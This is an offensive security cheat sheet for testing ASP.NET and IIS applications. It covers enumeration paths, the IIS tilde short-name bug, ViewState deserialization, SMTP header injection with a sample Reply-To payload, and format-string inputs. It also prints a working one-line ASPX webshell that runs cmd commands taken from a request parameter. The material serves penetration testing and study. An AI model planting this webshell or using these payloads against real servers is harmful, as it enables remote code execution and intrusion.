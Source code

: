 ## ENUMERATION
No need for me to say how important is enumeration! I list herein _additional_ directories and extentions to look for in a .NET application.
### Directories
  - C:\Windows\System32
  - \\Host\C$\Windows\System32
  - \\.\C:\Windows\System32
  - \\?\C:\Windows\System32
  - \\?\UNC\Host\C$\Windows\System32
  - C:\Windows\hh.exe == C:\Windows:$I30:$INDEX_ALLOCATION\hh.exe
  - C:\Windows\notepad.exe == C:\Windows\notepad.exe::$DATA
  - FileName.aspx == FileName.aspx:.jpg
  - http://hostname/*Resource.axd?d=<resourceId\>&t=\<timestamp\>

Also take a look at the following reminders before you start your directory bruteforce:
  - Reserved: NUL, CON, AUX, PRN, COM, LPT
  - Endings: name == name… == name \\\
  - Case insensitivity
### Files Extensions
  - .asp
  - .aspx
  - .ashx
  - .xsd
  - .disco
  - .discomap
  - .wsdl
  - .wadl
  - .asmx
  - .xml
  - .config
  - .zip
  - .txt
  
## TECHNIQUES AND TRICKS
I wanted this list to be an exhaustive list of all vulnerabilities that are mentioned on the web to be of a special focus in ASP.NET applications, I myself have seen some and not all of them, and I guess they are common among .NET in general -you will recognize some of them to be valid for all types of backends too but I was not as keen to mention all of those.
### Short Names (IIS tilde bug)
The vulnerability is caused by a tilde character "~" in a GET or OPTIONS request, which could allow remote attackers to disclose 8.3 filenames.
[IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner). Command: `java –jar iis_shortname_scanner.jar [2=Show_Progress] [20=Threads] [Target_URL] > [OutFile]`
<br>PS. ignore “global”, “master”, “default”, “aspnet” from results.
### Viewstate
The ViewState is a mechanism built into the ASP.NET platform for persisting elements of the user interface and other data across successive requests. The data to be persisted is serialized by the server and transmitted via a hidden form field. When it is posted back to the server, the ViewState parameter is deserialized and the data is retrieved. An attacker can modify the contents of the ViewState and cause arbitrary data to be deserialized and processed by the server. An attacker may be able to execute arbitrary code on the server by supplying a gadget chain. Also, if the ViewState contains any items that are critical to the server's processing of the request, then this may result in a direct security exposure.
Looking further into this vulnerability you would notice that it has many possible variations. As a simple first step, you can start by testing if the ViewState is not encrypted simply by finding any ViewState decoder on the web (e.g. http://viewstatedecoder.azurewebsites.net/)
### Remote debugging
Since ASP.NET is a compiled application, it has certain debugging features. Microsoft allows you to use a remote debugger to work on a debug version of the application.  If this port is open on the Internet and is protected by a simple password, or there is no password at all, then it is possible to pick up a debugger session.
### SMTP Header Injection
No validation of the value that falls in the “To” header, it is possible to redirect the letter to another recipient. But that would be too simple and obvious, so validation occurs already at the .Net level. However, if you introduce a new Reply-To header — the answer address, many forms such as “Forgotten Password” often take the sending address from it, thus it is enough to embed carriage return and line feed characters and get the workload.

>From: rth@bieberdorf.edu (R.T. Hood)<br>
>To: tmh@immense-isp.com/r/nReply-to:hack@hack.ru
>Date: Tue, Mar 18199714:36:14 PST
>Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>
>...
>В итоге будет внедрен новый заголовок:
>From: rth@bieberdorf.edu (R.T. Hood)
>To: tmh@immense-isp.com
>Reply-To: hack@hack.ru
>Date: Tue, Mar 18199714:36:14 PST
>Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>
### Additional .NET-Specific Tricks
1. Canonicalization attack
  - Using environment variables to represent path - e.g. %windir%notepad.exe
  - Trailing “.” - e.g. C:wondowsnotepad.exe.
  - Create file - \\URL\<name>		\\URL\pipe\<name>
2. LINQ injection
3. Hash collusion: https://github.com/HybrisDisaster/aspHashDoS
#### Not-.NET-Specific
1. XXE in DocX files
2. Padding Oracle (cookies / viewstate …)
3. Injection (sql with sqlNinja, js, html…)
4. Format strings attack - e.g %n%n%n%n%n%n%n%n  ||  %s%s%s%s%s%s%s%s%s  ||  %d%d%d%d%d%d%d%d
5. Serialization
6. LFI - simple webshell `<%@ Page Language="C#" %> <%@ Import Namespace="System.Diagnostics" %> <%= Process.Start( new ProcessStartInfo( "cmd","/c " + Request["c"] ) { UseShellExecute = false, RedirectStandardOutput = true } ).StandardOutput.ReadToEnd() %>`
7. Trace method
8. Session fixation 
9. Replay attacks
10. CORS
 
## References
- https://www.youtube.com/watch?v=HrJW6Y9kHC4 
- https://cheatsheetseries.owasp.org/cheatsheets/DotNet_Security_Cheat_Sheet.html
- https://resources.infosecinstitute.com/topic/net-penetration-testing-test-case-cheat-sheet/
- https://www.business2community.com/cybersecurity/9-ways-hackers-exploit-asp-net-and-how-to-prevent-them-02353604
- Positive technologies [PDF](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiR5K7i-5T0AhUKh_0HHQM2CW0QFnoECAMQAQ&url=https%3A%2F%2Fwww.ptsecurity.com%2Fupload%2Fcorporate%2Fru-ru%2Fwebinars%2Fics%2FV.Kochetkov_breaking_ASP.NET.pdf&usg=AOvVaw1BQOnt5w4XQizf5Tosp201)
